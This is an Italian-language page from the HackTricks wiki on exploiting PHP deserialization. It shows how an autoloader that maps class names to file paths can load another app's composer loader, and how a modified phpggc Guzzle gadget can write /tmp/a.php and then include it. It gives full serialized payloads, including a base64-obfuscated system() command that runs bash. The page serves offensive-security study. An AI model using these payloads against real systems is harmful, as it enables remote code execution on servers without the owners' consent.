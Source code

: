 # PHP - Deserializzazione + Classi Autoload

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

Prima di tutto, dovresti controllare cosa sono le [**Classi Autoloading**](https://www.php.net/manual/en/language.oop5.autoload.php).

## Deserializzazione PHP + spl\_autoload\_register + LFI/Gadget

Siamo in una situazione in cui abbiamo trovato una **deserializzazione PHP in un'app web** senza **nessuna** libreria vulnerabile a gadget all'interno di **`phpggc`**. Tuttavia, nello stesso contenitore c'era una **diversa app web composer con librerie vulnerabili**. Pertanto, l'obiettivo era **caricare il loader composer dell'altra app web** e abusarne per **caricare un gadget che sfrutterà quella libreria con un gadget** dall'app web vulnerabile alla deserializzazione.

Passi:

* Hai trovato una **deserializzazione** e **non ci sono gadget** nel codice dell'app attuale
* Puoi abusare di una funzione **`spl_autoload_register`** come la seguente per **caricare qualsiasi file locale con estensione `.php`**
* Per questo usi una deserializzazione in cui il nome della classe sarà all'interno di **`$name`**. Non **puoi usare "/" o "."** in un nome di classe in un oggetto serializzato, ma il **codice** sta **sostituendo** gli **underscore** ("\_") **con barre** ("/"). Quindi un nome di classe come `tmp_passwd` sarà trasformato in `/tmp/passwd.php` e il codice cercherà di caricarlo.\
Un **esempio di gadget** sarà: **`O:10:"tmp_passwd":0:{}`**
```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```
{% hint style="success" %}
Se hai un **upload di file** e puoi caricare un file con estensione **`.php`** potresti **sfruttare questa funzionalità direttamente** e ottenere già RCE.
{% endhint %}

Nel mio caso, non avevo nulla di simile, ma c'era all'interno dello **stesso container** un'altra pagina web di composer con una **libreria vulnerabile a un gadget `phpggc`**.

* Per caricare questa altra libreria, prima devi **caricare il loader di composer di quell'altra web app** (perché quello dell'applicazione attuale non accederà alle librerie dell'altra). **Conoscendo il percorso dell'applicazione**, puoi ottenere questo molto facilmente con: **`O:28:"www_frontend_vendor_autoload":0:{}`** (Nel mio caso, il loader di composer si trovava in `/www/frontend/vendor/autoload.php`)
* Ora puoi **caricare** il **loader di composer dell'altra app**, quindi è tempo di **`generare il payload phpgcc`** da utilizzare. Nel mio caso, ho usato **`Guzzle/FW1`**, che mi ha permesso di **scrivere qualsiasi file all'interno del filesystem**.
* NOTA: Il **gadget generato non funzionava**, affinché funzionasse ho **modificato** quel payload **`chain.php`** di phpggc e impostato **tutti gli attributi** delle classi **da privati a pubblici**. Altrimenti, dopo aver deserializzato la stringa, gli attributi degli oggetti creati non avevano valori.
* Ora abbiamo il modo di **caricare il loader di composer dell'altra app** e avere un **payload phpgcc che funziona**, ma dobbiamo **fare questo nella STESSA RICHIESTA affinché il loader venga caricato quando il gadget viene utilizzato**. Per questo, ho inviato un array serializzato con entrambi gli oggetti come:
* Puoi vedere **prima il loader che viene caricato e poi il payload**

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* Ora possiamo **creare e scrivere un file**, tuttavia, l'utente **non poteva scrivere in nessuna cartella all'interno del server web**. Quindi, come puoi vedere nel payload, PHP chiama **`system`** con un po' di **base64** creato in **`/tmp/a.php`**. Poi, possiamo **riutilizzare il primo tipo di payload** che abbiamo usato come LFI per caricare il caricatore di composer dell'altra webapp **per caricare il file generato `/tmp/a.php`**. Basta aggiungerlo al gadget di deserializzazione:&#x20;

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**Riepilogo del payload**

* **Carica l'autoload di composer** di un'altra webapp nello stesso container
* **Carica un gadget phpggc** per abusare di una libreria dell'altra webapp (la webapp iniziale vulnerabile alla deserializzazione non aveva alcun gadget nelle sue librerie)
* Il gadget **creerà un file con un payload PHP** in /tmp/a.php con comandi malevoli (l'utente della webapp non può scrivere in nessuna cartella di nessuna webapp)
* L'ultima parte del nostro payload utilizzerà **caricare il file php generato** che eseguirà comandi

Ho dovuto **chiamare questa deserializzazione due volte**. Nei miei test, la prima volta il file `/tmp/a.php` è stato creato ma non caricato, e la seconda volta è stato caricato correttamente.

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
